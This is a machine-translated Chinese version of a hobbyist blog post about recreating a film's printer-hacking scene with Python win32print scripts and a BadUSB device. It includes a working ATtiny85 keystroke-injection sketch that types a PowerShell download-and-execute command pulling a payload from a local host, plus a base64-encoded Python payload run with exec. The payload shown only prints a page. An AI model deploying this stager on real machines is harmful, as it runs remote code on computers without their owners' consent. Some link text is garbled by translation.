








# 我如何利用几台打印机重现了一个标志性的黑客场景

> 原文：<https://medium.com/hackernoon/how-i-recreated-an-iconic-hacking-scene-exploiting-several-printers-729ae331c47e>

## 来自电影《我是谁——没有一个系统是安全的》



# 背景

我不知道其他的*黑客*，但我是总 ***n00b*** 说到
*“一定要* *看黑客电影/连续剧”*


是啊。我知道。闭嘴。

# (预)情节

当我进入大学，我的一个朋友强迫我在第二天看
***【社交网络】*** *，坦白地说，我很喜欢！我不知道它对我产生了怎样的影响，但我肯定它给我的军火库增加了一个很酷的 GIF。*(你很快就会看到)**

此后，我很少见到。*(忘不了机器人先生，为第四季而死)* 最近看到“**我是谁——没有系统是安全的**”


*(字幕救了我的命，看了原版(俄语)又名没有配音)*

> 本杰明——一个孤独的计算机专家——遇到了魅力非凡的马克斯，他们两人——以及马克斯的朋友们——组成了克雷，一个颠覆性的黑客组织。

# 真正的情节

我喜欢这部电影，就像我看过的每部电影或每本书一样，是时候将电影中的一些东西运用到现实世界中去，增强我的知识、经验或..*介于*之间的任何东西。我用我看到或读到的一切来做这件事，我会试着分享所有这些故事。**很快**。
***好了，继续前进。*** *(出自《社交网络》的一句台词)*

我觉得下面的部分很吸引人。


The Fun, printers going crazy

这一切是怎么发生的？


我们开始吧..


The iconic “hacking” scene we all crave for

因为我觉得这很有趣，我开始了我的搜索。我开始阅读关于打印机、它们如何通信、哪些协议用于信息交换、过去关于利用打印机的研究论文等等。

# 无聊的侦察角落

我们的打印机使用的一些语言/协议:

*   简单网络管理协议(Simple Network Management Protocol)
*   PML/PJL
*   附笔
*   规定
*   LPD
*   IPP
*   生的
*   服务器信息块

我发现了很多有趣的东西，我用砖砌了我的家用打印机，打开了所有的部件，撕开了电路，玩得很开心，我将分享我的发现。



Late Mr. Home Printer

但是，现在，让我们专注于标题，即在我们的现实世界中重新创建上述场景。正如你所猜测的，有许多打印机，有许多语言，所以，可以有戏剧，*很多戏剧。*

而作为你的 ***1337 HaX0r*** ，你的*【剥削三明治】*应该可以。*句号。*

# 解决方案？



Market Share of various major Operating Systems

**宾果。** *(电影中本杰明最喜欢的词)*

# 拯救我们的窗户

因为它占了大部分份额，所以让我们把手弄脏来滥用 windows 吧。
我们可以想象底层架构，打印机通过自己的首选语言 *(PJL、PML、PostScript …)* 与计算机对话/连接，然后计算机对其进行处理、推断。

但是，当我们点击**打印**按钮，打印*我们的撅嘴自拍*时，你知道症结中的*会发生什么吗？*



My drawing, I know, I am a born artist.

那么，与其攻击**(打印机→电脑)**界面，为什么不深入研究一下**(应用程序→电脑)**界面呢？

# 攻击 API

*或者只是低级接口？*


与其写一堆原生 C++，为什么不*也抽象*这一层呢？
让我们使用一个包含大多数低层 ***win32*** 协议的 python 包装器。

在长时间摆弄 ***win32api*** 之后，我抓耳挠腮了好几次，学习了许多关于 win32 协议、包装器、COM 对象、
的东西，我也开始了解另一个模块，名为 **win32print** 。
经过大量的挖掘，我终于创造出了*这颗宝石，皇冠上的宝石，
l33t c0d3！*

```
win32api.ShellExecute (
 0,
 “printto”,
 open (tempfile.mktemp (“.txt”), “a”).write (“Inject this!”),
 ‘“%s”’ % win32print.GetDefaultPrinter (),
 “.”,
 0
 )
```

> 这是我的埃菲尔铁塔。这是我的拉赫玛尼诺夫的第三首。我的圣母玛丽亚。它非常优雅，非常漂亮，能够让任何连接到 windows 系统的打印机发疯。我称之为“前妻”

*(引用自* ***钢铁侠 2*** *，感谢贾斯汀·哈默)*

# 代码拆卸

我们可以把代码分解成三大部分:
-***shell execute***函数(对指定文件执行操作)
-***print to**(***[*对象动词*](https://docs.microsoft.com/en-us/windows/desktop/shell/launch#object-verbs)*)
-****win 32 print****API 和*

## ****外壳执行*** 功能*

***ShellExecute** 是*代码*相当于用户“双击”一个文件图标。它使 Windows 计算出文档文件与什么应用程序相关联，启动程序并让它加载文档文件。*

*通过使用 **ShellExecute** ，你不需要知道注册到特定文件类型的程序的名称或位置。Windows 会帮你解决这个问题。比如你可以 **ShellExecute** 一个**。PDF]** 文件，只要安装了*阅读器、Acrobat* 或其他一些 PDF 阅读应用，Windows 就会启动它并为你加载 **PDF** 。*

## *宾语动词*

*快捷菜单上的每个命令在注册表中由其动词*标识。这些动词与[**ShellExecuteEx**](https://msdn.microsoft.com/en-us/library/bb762154(v=vs.85))以编程方式启动应用程序时使用的动词相同。*(快速参考—* [*启动应用*](https://msdn.microsoft.com/en-us/library/bb776886(v=vs.85)) *)。)***

*动词是一个简单的文本字符串，Shell 使用它来标识相关的命令。每个动词对应于用于在控制台窗口中启动命令的*命令字符串*。*

**

*List of verbs*

*等一下！实际交易在哪里？列表中没有“printto”动词！*

> *printto 谓词也是规范的，但从不显示。它允许用户通过拖动文件到打印机对象来打印文件。*

## *“printto”宾语动词*

*在微软 Windows 95 及更高版本的系统上右击一个对象通常会弹出一个*快捷菜单*。该菜单包含一个命令列表，用户可以选择这些命令来对对象执行各种操作。本节介绍文件系统对象的快捷菜单。*

*   *文件系统对象的快捷菜单*
*   *快捷菜单动词*
*   *扩展文件类的快捷菜单*
*   *扩展预定义壳对象的快捷菜单*
*   *注册应用程序以处理任意文件类*
*   *扩展新的子菜单*

***Kudos:——**Mat Baker&Michael "*micolous*"都帮助我们 ***参见*****under-documented**[**printto**](http://msdn.microsoft.com/en-us/library/aa969321.aspx#class)**动词**，它以打印机名称作为参数，如果它包含空格，就用引号括起来。*

*[](https://docs.microsoft.com/en-us/previous-versions//bb776820%28v=vs.85%29#class) [## 扩展快捷菜单

### 因为快捷菜单经常用于文件管理，所以 Shell 提供了一组默认命令，例如 Cut…

docs.microsoft.com](https://docs.microsoft.com/en-us/previous-versions//bb776820%28v=vs.85%29#class) 

## ***win32 print****API*

***Q-1。*** *我们为什么需要这个？*
*回答:——*我们需要一个 API，它可以让我们在底层访问打印机。
***Q-2。*** *我们需要什么？*
*答案:——*蒂姆·戈尔登的 **win32print** 模块看起来很完美！

在阅读了代码和文档后，我搜索并阅读了各种部件/功能。

 [## 模块 win32print

### 封装 Windows 打印 API 的模块。请访问 win32 print _ _ GetDefaultPrinter _ meth . html

timgolden.me.uk](http://timgolden.me.uk/pywin32-docs/win32print.html) 

# 准备好大改造吧，伙计们！

*(另一个来自钢铁侠 2)*

打印文本很酷，但是如果我想要同上的场景， ***同上*** 文档呢？


Everybody wants a Ditto! (in Pokemon, obviously, yeah, even Ash Ketchum, see EP037)

# 打印文档

***win32print*** 模块提供了(几乎)所有的打印原语，你需要这些原语来获取一些数据，并将其发送到已经在你的系统中定义好的打印机上。数据必须是打印机乐于接受的形式，通常是文本*(我们以前用过)*或原始 **PCL** 之类的东西。

# 让黑客攻击开始吧


The weapon I was talking about ;)

# 打印文档

```
import win32ui
import win32print
import win32conhDC = win32ui.CreateDC ()
hDC.CreatePrinterDC (win32print.GetDefaultPrinter ())
hDC.StartDoc (“Injected Doc”)
hDC.StartPage ()
hDC.SetMapMode (win32con.MM_TWIPS)
hDC.DrawText (“HELLO WORLD”, (0, 1440 * -1, 1440 * 8, 1440 * -2), win32con.DT_CENTER)
hDC.EndPage ()
hDC.EndDoc ()
```

# 打印图像

```
import win32print
import win32ui
from PIL import Image, ImageWinhDC = win32ui.CreateDC ()
hDC.CreatePrinterDC (win32print.GetDefaultPrinter ())
bmp = Image.open ("**whoami**.jpg")
hDC.StartDoc ("**whoami?**")
hDC.StartPage ()
dib = ImageWin.Dib (bmp)
dib.draw (hDC.GetHandleOutput (), (0,0,(hDC.GetDeviceCaps (110), hDC.GetDeviceCaps (111))[0],(hDC.GetDeviceCaps (110), hDC.GetDeviceCaps (111))[1]))
hDC.EndPage ()
hDC.EndDoc ()
hDC.DeleteDC ()
```

# 演示时间！

**注:**我在一台没有连接打印机的独立笔记本电脑上做了所有测试。因此，相反，它转向“保存 PDF”的方法，这就是为什么运行有效载荷提示保存生成的数据，而不是直接打印它。

不相信那些？太好了！你自己去写剧本吧，不要打印就好，或者也许只打印一个*(也不要*[*Pewdiepie*](https://thehackernews.com/2018/11/pewdiepie-printer-hack.html)*发烧，拜托)。*节约纸张。**❤**

# 比好莱坞电影场景还要酷！

> 不接触任何键盘或思考任何“编程”的想法来做所有这些事情怎么样？

## 浪子回头了！

*(这个出自钢铁侠 3)*

是时候介绍我们的坏小子了，BadUSB！*(或者也许是橡皮鸭？)*

*其实以上都不是，也不是原来的****bad USB****利用了* ***群联 2251–03(2303)****芯片组的漏洞，用定制的固件给它打补丁，使它成为一台可编程的杀人机器，就像* ***USB*** 一样

等一下，让我搜索一下我所谓的' ***实验室*** *'因为我在家(暑假)……我找到了！*

*是的，我看了同一年的* [*那个*](https://youtu.be/nuruzFqMgIw) *黑帽子视频****(2014)****，疯狂了，因为 Hak5 不发货到印度(仍然，今天检查)而且它更酷(从技术上讲)，打破了我周围的每一个钢笔驱动器，最后发现一个，(也许两个)有相同的芯片组。*

## 这里有一个类似的芯片组，**拆焊**



Ah, memories ❤

**你以前是怎么连接这个的？** *(以防万一..)*



Found in folders, connections to a normal USB, because I broke the USB Male Connector

# 那么，是什么呢！？

这是一个 **ATiny85** *(也可以使用 Arduino Uno r3，但它不会伪装成项链)*微控制器，上面加载了打了补丁的 HID(人机界面设备)固件，使它有点像上面的两个连环杀手。*(但更便宜，更少——更技术性，比群联固件补丁少，比抓个 USB 橡皮鸭多)*

# 分级有效载荷

在我们的微控制器内部运行的代码充当一个 ***存根加载器*** 。

```
#include “DigiKeyboard.h”#define KEY_UP_ARROW 0x52
#define KEY_DOWN_ARROW 0x51
#define KEY_LEFT_ARROW 0x50
#define KEY_RIGHT_ARROW 0x4F
void setup() {
}void loop() {
 DigiKeyboard.sendKeyStroke(0);
 DigiKeyboard.delay(300);
 DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
 DigiKeyboard.delay(300);
 DigiKeyboard.print(“cmd”);
 DigiKeyboard.sendKeyStroke(KEY_ENTER);
 DigiKeyboard.delay(500);
 DigiKeyboard.print(“powershell iex ((New-Object System.Net.WebClient).DownloadString(‘[http://10.10.10.1:8000/payload.txt'](http://10.163.5.244:8000/data.txt')))");
 DigiKeyboard.sendKeyStroke(KEY_ENTER);
 for(;;){ /*empty*/ }
}
```

**末级有效载荷**

```
py -c “import base64;exec(base64.b64decode(‘aW1wb3J0IHdpbjMydWkNCmltcG9ydCB3aW4zMnByaW50DQppbXBvcnQgd2luMzJjb24NCklOQ0ggPSAxNDQwDQpoREMgPSB3aW4zMnVpLkNyZWF0ZURDICgpDQpoREMuQ3JlYXRlUHJpbnRlckRDICh3aW4zMnByaW50LkdldERlZmF1bHRQcmludGVyICgpKQ0KaERDLlN0YXJ0RG9jICgiSW5qZWN0ZWQgRG9jIikNCmhEQy5TdGFydFBhZ2UgKCkNCmhEQy5TZXRNYXBNb2RlICh3aW4zMmNvbi5NTV9UV0lQUykNCmhEQy5EcmF3VGV4dCAoIkhFTExPIFdPUkxELCBieSBAMHg0OHBpcmFqIiwgKDAsIElOQ0ggKiAtMSwgSU5DSCAqIDgsIElOQ0ggKiAtMiksIHdpbjMyY29uLkRUX0NFTlRFUikNCmhEQy5FbmRQYWdlICgpDQpoREMuRW5kRG9jICgp’))”
```

# **演示**

## 受害者的电脑

## 攻击者的电脑



***宾果！***

# 关于作者

Piyush Raj 现在是一名 18 岁的大学新生，目前在 OWASP 基金会担任谷歌学生开发者。他是过去的**谷歌代码贡献获奖者**，喜欢玩**足球**。

*你可以通过*[***LinkedIn***](https://linkedin.com/in/0x48piraj)***，***[***Twitter***](https://twitter.com/0x48piraj)***，***[**insta gram**](https://instagram.com/piyushrajofficial)

[](https://www.linkedin.com/in/0x48piraj)[](https://twitter.com/0x48piraj)[](https://www.instagram.com/piyushrajofficial/)

Social Jazz.

# 参考

*(我知道是中等，但是诶。)*

1.  [*我是谁——没有系统是安全的*](https://www.imdb.com/title/tt3042408/)
2.  [*ffmpeg-ss 00:00:00-I input.mp4-00:00:03-c 复制 output.mp4*](https://stackoverflow.com/questions/18444194/cutting-the-videos-based-on-start-and-end-time-using-ffmpeg)
3.  【http://zulko.github.io/moviepy/install.html 
4.  [*https://www.python.org/*](https://www.python.org/)
5.  [*http://Tim golden . me . uk/py win32-docs/HTML/com/win32 com/HTML/quick start client com . HTML*](http://timgolden.me.uk/pywin32-docs/html/com/win32com/HTML/QuickStartClientCom.html)
6.  *打印机协议—*[*LPD*](http://hacking-printers.net/wiki/index.php/LPD)*，*[*IPP*](http://hacking-printers.net/wiki/index.php/IPP)*，*[*Raw*](http://hacking-printers.net/wiki/index.php/Raw)*，* [*SMB*](http://hacking-printers.net/wiki/index.php/SMB)
7.  *打印机语言—*[*PJL*](http://hacking-printers.net/wiki/index.php/PJL)*，*[*PCL*](http://hacking-printers.net/wiki/index.php/PCL)*，* [*后记*](http://hacking-printers.net/wiki/index.php/PostScript)
8.  [https://docs . Microsoft . com/en-us/windows/desktop/shell/launch](https://docs.microsoft.com/en-us/windows/desktop/shell/launch)
9.  [mhammond/py win32/win32 print](https://github.com/mhammond/pywin32/blob/master/win32/src/win32print/win32print.cpp)
10.  [https://bulbapedia.bulbagarden.net/wiki/EP037](https://bulbapedia.bulbagarden.net/wiki/EP037)*